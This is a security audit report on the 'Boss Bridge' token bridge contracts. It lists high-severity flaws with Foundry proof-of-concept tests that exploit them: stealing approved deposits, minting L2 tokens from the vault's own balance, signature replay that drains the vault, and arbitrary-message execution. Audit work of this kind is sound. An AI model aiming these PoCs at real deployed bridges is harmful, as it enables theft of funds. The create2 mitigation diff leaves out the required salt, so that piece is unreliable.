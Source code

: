 ### [H-1] The parameter `address from` in `L1BoossBridge::depositTokensToL2` function can be called arbitrarily by anyone, user funds can be stolen.

**Description:** This parameter `from` is the address where an amount will be transfered to the `vault` of `L1` to then receive the minted L2 tokens respectively. To execute the function `depositTokensToL2` first you need to execute an `approve` function with the `L1 tokens` so the `bridge` can take from your funds. After you called the `approve` function, the time between you call `approve` and `depositTokensToL2` anyone can call `depositTokensToL2` with your funds and receive the `L2 tokens` for themselves.

**Impact:** Potential loose of funds from the user that executes `approve`.

**Proof of Concept:** PoC

1. The `user` approves the L1 token to deposit.
2. The `attacker` calls `depositTokensToL2` with money of the `user` and receive `L2 tokens` for himself.

<details>
<summary>Code</summary>

```javascript
function testl1TokensCanBeDepositedByArbitraryUserOnceApproved() public {
        vm.prank(user);
        token.approve(address(tokenBridge), type(uint256).max);

        uint256 amountToDeposit = token.balanceOf(user);
        address attacker = makeAddr("attacker");
        vm.startPrank(attacker);
        vm.expectEmit(address(tokenBridge));
        emit Deposit(user, attacker, amountToDeposit);
        tokenBridge.depositTokensToL2(user, attacker, amountToDeposit);

        assertEq(token.balanceOf(user), 0);
        assertEq(token.balanceOf(address(vault)), amountToDeposit);
    }
```

</details>

**Recommended Mitigation:** Don't make the `from` parameter arbitrary, you can withdraw from the one that calls the function.


### [H-2] Using the `L1 vault` funds to deposit to itself can cause infinite minting of `L2 tokens`

**Description:** As the parameter `address from` from `L1BoossBridge::depositTokensToL2` is arbitrary you can use that to deposit from the `vault` to the `vault` itself to receive `L2 tokens`. 

**Impact:** A couple:
- Misconfiguration of balances of `L1 vault` and `L2 vault`.
- Infinite minting of `L2 tokens`.

**Proof of Concept:**PoC
1. Some user deposits to the `vault`.
2. The `attacker` uses the balance of the `vault` to get the corresponding `L2 tokens`.
3. Deposit is successful.
4. The balance of the `vault` didn't change but the attacker got the `L2 tokens`.

<details>
<summary>Test</summary>

```javascript
function testAttackerCanMintInfiniteL2TokensWithoutPaying () public {
        vm.prank(user);
        token.approve(address(tokenBridge), type(uint256).max);
        uint256 amountToDeposit = token.balanceOf(user);
        tokenBridge.depositTokensToL2(user, user, amountToDeposit);

        uint256 amountToSteal = token.balanceOf(address(vault));
        address attacker = makeAddr("attacker");

        // We try to get minted L2 tokens using the balance of the vault
        // Can do this forever and mint infinite tokens from L2
        vm.startPrank(attacker);
        vm.expectEmit(address(tokenBridge));
        emit Deposit(address(vault), attacker, amountToSteal);
        tokenBridge.depositTokensToL2(address(vault), attacker, amountToSteal);

        assert(token.balanceOf(address(vault)) != amountToDeposit + amountToSteal);
        // The balance should be the same as the user deposited but the tokens minted now are doubled with
        // the same balance
        assertEq(token.balanceOf(address(vault)), amountToDeposit);
    }
```
</details>

**Recommended Mitigation:** Filter with a modifier or something similar the address of the vault to avoid using the tokens from vault itself. Consider adding the follwing lines.
```diff
+ error L1BossBridge__InvalidAddress();
+ modifier checkInvalidAddress(address _from) {
+       if (_from == address(vault)) {
+       revert L1BossBridge__InvalidAddress();
+ }
}
```

And add this modifier to the proper function.


### [H-3] Potential signature replay attack on function `L1BossBridge::withdrawTokensToL1`.

**Description:** To withdraw tokens to L1 (so the inverse of the `depositTokensToL2` function), you are supposed to make a request to the operator that have to sign the  withdrawal before it can be done. Once the message that allows you to withdraw is signed, then you or the operator executes the message signed on `L1BossBridge::withdrawTokensToL1` using the `v`, `r`, `s`(parts of the signature), `to` and `amount`.
NOTE: you have to put the exact parameters `to` `amount` as in the message signed, if not it won't work.
The problems comes after the withdrawal, when is successful, then you can use the same signature to execute the withdrawal multiple times till you drain the contract.

<details>
<summary>Function `withdrawTokensToL1`</summary>

```javascript
function withdrawTokensToL1(address to, uint256 amount, uint8 v, bytes32 r, bytes32 s) external {
        sendToL1(
            v,
            r,
            s,
            abi.encode(
                address(token),
                0, // value
                abi.encodeCall(IERC20.transferFrom, (address(vault), to, amount))
            )
        );
    }
```
</details>

**Impact:** Loose of all or some funds (depends if ti can be paused) of the L1 vault.

**Proof of Concept:** PoC
1. Assume we start with some balance on the `vault` and the `attacker` account.
2. `attacker` deposits all his balance.
3. `attacker` requests the withdrawal.
4. `message` is  created and signed with the exact parameters requested.
5. `attacker` makes the withdrawal repeatidly till drain the contract the `vault`.

<details>
<summary>Test</summary>

```javascript
function testSignatureReplay() public {
        address attacker = makeAddr("attacker");
        uint256 attackerInitialBalance = 100e18;
        uint256 vaultInitialBalance = 1000e18;

        deal(address(token), address(vault), vaultInitialBalance);
        deal(address(token), attacker, attackerInitialBalance);

        // An attacker deposits some to L2
        vm.startPrank(attacker);
        token.approve(address(tokenBridge), type(uint256).max);
        tokenBridge.depositTokensToL2(attacker, attacker, attackerInitialBalance);

        // The attacker request some withdraw to L1 so the signer has to do the transaction
        
        
        // Operator is going to sign the withdrawal
        bytes memory message = abi.encode(address(token), 0, abi.encodeCall(IERC20.transferFrom, (address(vault), attacker, attackerInitialBalance)));

        (uint8 v, bytes32 r, bytes32 s) = vm.sign(operator.key, MessageHashUtils.toEthSignedMessageHash(keccak256(message)));

        while (token.balanceOf(address(vault)) > 0) {
            tokenBridge.withdrawTokensToL1(attacker, attackerInitialBalance, v, r, s);
        }

        assertEq(token.balanceOf(attacker), vaultInitialBalance + attackerInitialBalance);
        assertEq(token.balanceOf(address(vault)), 0);
    }
```
</details>

**Recommended Mitigation:** Consider adding some data to the function that can only be used one time. Like a `nonce` or a `timestamp`.

### [H-4] Function `L1BossBridge::sendToL1` you can send arbitrary `messages` causing an undesired excution of functions.

**Description:** The function `sendToL1` is used by the function `withdrawTokensToL1` to withdraw from L2 to L1 tokens. The `message` parameter on the function `sendToL1` is created on `withdrawTokensToL1` function. But the problem resides on the visibility of the function, anyone can call `sendToL1` with a random message, so if somehow you get a corrupt message signed by an operator you can execute it  directly on the function `sendToL1` and get it done.

<details>
<summary>`sendToL1` function</summary>

```javascript
function sendToL1(uint8 v, bytes32 r, bytes32 s, bytes memory message) public nonReentrant whenNotPaused {
        address signer = ECDSA.recover(MessageHashUtils.toEthSignedMessageHash(keccak256(message)), v, r, s);

        if (!signers[signer]) {
            revert L1BossBridge__Unauthorized();
        }

        (address target, uint256 value, bytes memory data) = abi.decode(message, (address, uint256, bytes));

        (bool success,) = target.call{ value: value }(data);
        if (!success) {
            revert L1BossBridge__CallFailed();
        }
    }
```
</details>

You also can make a `gas bomb` playing with the arbitrary messages. Not draining the contract but make the operator to spend a large amount of gas. Same root cause.

**Impact:** Undesired execution of functions inside the `message` parameter.

**Proof of Concept:**PoC
1. `Attacker` deposits, and vault has already an initial balance.
2. You create a corrupt message that instead of withdrawing your balance from L2, you withdraw all the funds from the vault.
3. Somehow you got it signed.
4. Execute it directly on `sendToL1` function and drain the contract.

<details>
<summary>test</summary>

```javascript
function testSendArbitraryMessagesSendToL1Function() public {
        address attacker = makeAddr("attacker");
        uint256 attackerInitialBalance = 100e18;
        uint256 vaultInitialBalance = 1000e18;

        deal(address(token), address(vault), vaultInitialBalance);
        deal(address(token), attacker, attackerInitialBalance);

        // An attacker deposits some to L2
        vm.startPrank(attacker);
        token.approve(address(tokenBridge), type(uint256).max);
        tokenBridge.depositTokensToL2(attacker, attacker, attackerInitialBalance);

        // The attacker request some withdraw to L1 so the signer has to do the transaction
        
        
        // We create a corrupt message to drain the vault
        bytes memory message = abi.encode(address(token), 0, abi.encodeCall(IERC20.transferFrom, (address(vault), attacker, token.balanceOf(address(vault)))));

        // The operator signs it without knowing it
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(operator.key, MessageHashUtils.toEthSignedMessageHash(keccak256(message)));
        
        // We can use this signature to call sendToL1 function and drain the vault
        tokenBridge.sendToL1(v, r, s, message);
    

        assertEq(token.balanceOf(attacker), vaultInitialBalance + attackerInitialBalance);
        assertEq(token.balanceOf(address(vault)), 0);

    }
```
</details>

**Recommended Mitigation:** You can change the visibility of the function `senToL1` put it `internal` or `private`.


### [H-5] `TokenFactory::deployToken` function is not `EVM compatible` if you deploy it in ZKSync Era.

**Description:** According to the `Readme` of the protocol `Boss Bridge` says that the contract `TokenFactory` will be deployed on ZKSync Era but if you go to the docs of `ZKSync Era` you can read that in order to use `create` or `create2` to deploy a contract is preferably to know the bytecode of the contract beforehand. Thus, `deployToken` function don't know the bytecode beforehand so probably will fail on `ZKSync Era`.

<details>
<summary>`deployToken` function</summary>

```javascript
function deployToken(string memory symbol, bytes memory contractBytecode) public onlyOwner returns (address addr) {
        assembly {
            addr := create(0, add(contractBytecode, 0x20), mload(contractBytecode))
        }
        s_tokenToAddress[symbol] = addr;
        emit TokenDeployed(symbol, addr);
    }
```
</details>

**Impact:** Failure of deployment of tokens.

**Recommended Mitigation:** Consider adding the following lines:

```diff
-function deployToken(string memory symbol, bytes memory contractBytecode) public onlyOwner returns (address addr)
+function deployToken(string memory symbol) public onlyOwner returns (address addr) {
+        bytes memory contractBytecode = type(MyContract).creationCode;
        assembly {
-           addr := create(0, add(contractBytecode, 0x20), mload(contractBytecode))
+           addr := create2(0, add(contractBytecode, 0x20), mload(contractBytecode))
        }
        s_tokenToAddress[symbol] = addr;
        emit TokenDeployed(symbol, addr);
}
```